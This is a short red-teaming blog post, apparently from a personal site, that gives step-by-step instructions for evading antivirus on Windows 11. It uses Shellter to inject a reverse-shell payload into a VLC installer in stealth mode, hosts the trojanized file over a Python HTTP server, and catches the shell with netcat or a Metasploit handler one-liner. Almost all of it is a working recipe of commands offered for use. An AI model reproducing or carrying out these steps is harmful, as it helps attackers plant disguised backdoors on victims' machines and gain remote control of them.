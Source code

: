 ```yaml
---
title: "Anti-Virus Evasion"
date: 2024-04-25 22:56:24 +0800
categories: [AVEvasion]
tags: [RedTeaming]
---
```


# Antivirus Evasion on Windows 11

Using Shellter, I got a reverse shell on Windows 11. Below are the steps I followed:

## Steps:

1. Run Shellter using Wine:
   ```bash
   wine shellter.exe
   ```

2. After Shellter opens, choose: \
   ![Anti-Virus Evasion 01](assets/img/AV-Evasion/AV-Evasion-01.png)

   Write the path of the target executable program: \
   ![Anti-Virus Evasion 02](assets/img/AV-Evasion/AV-Evasion-02.png)
   ```bash
   /home/kali/Downloads/vlc32.exe
   ```

3. Choose `(Y)` for stealth mode: \
   ![Anti-Virus Evasion 03](assets/img/AV-Evasion/AV-Evasion-03.png)

4. Choose `(L)` for local injection: \
   ![Anti-Virus Evasion 04](assets/img/AV-Evasion/AV-Evasion-04.png)

5. Select `(5)` for `shell_reverse_tcp` payload: \
   ![Anti-Virus Evasion 05](assets/img/AV-Evasion/AV-Evasion-05.png)

6. Set `LHOST` to your attacker machine's IP address:
   ```bash
   LHOST 192.168.1.17
   ```
   ![Anti-Virus Evasion 06](assets/img/AV-Evasion/AV-Evasion-06.png)

7. Set `LPORT` to the port you will be listening on (e.g., `4444`):
   ```bash
   LPORT 4444
   ```
   ![Anti-Virus Evasion 07](assets/img/AV-Evasion/AV-Evasion-07.png)

8. Press Enter and wait ... for the process to finish

## Sending the File to the Target

To send the generated `.exe` file to the target, you can use a simple HTTP server on Kali Linux:

9. In the path of the generated executable file, open a terminal and start an HTTP server:
   ```bash
   python -m http.server 8888
   ```

## Opening a Listener on the Attacker Machine

You can open a listener in one of the following two ways:

### 1. Using Netcat:
```bash
nc -nlvp 4444
```

### 2. Using Metasploit:
```bash
msfconsole -x "use exploit/multi/handler; set payload windows/shell_reverse_tcp; set LPORT 4444; set LHOST 192.168.1.17"
```

When the Metasploit console opens, type `exploit` or `run` to start the handler:
```bash
msf6 exploit(multi/handler)> exploit
```

## Video Tutorial

Check out the following video for more details:

<!-- Click the image to watch the tutorial! -->
<!-- [![Anti-Virus Evasion Tutorial](https://img.youtube.com/vi/03mbGTtrVHI/0.jpg)](https://youtu.be/03mbGTtrVHI) -->

<iframe width="560" height="315" src="https://www.youtube.com/embed/03mbGTtrVHI" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>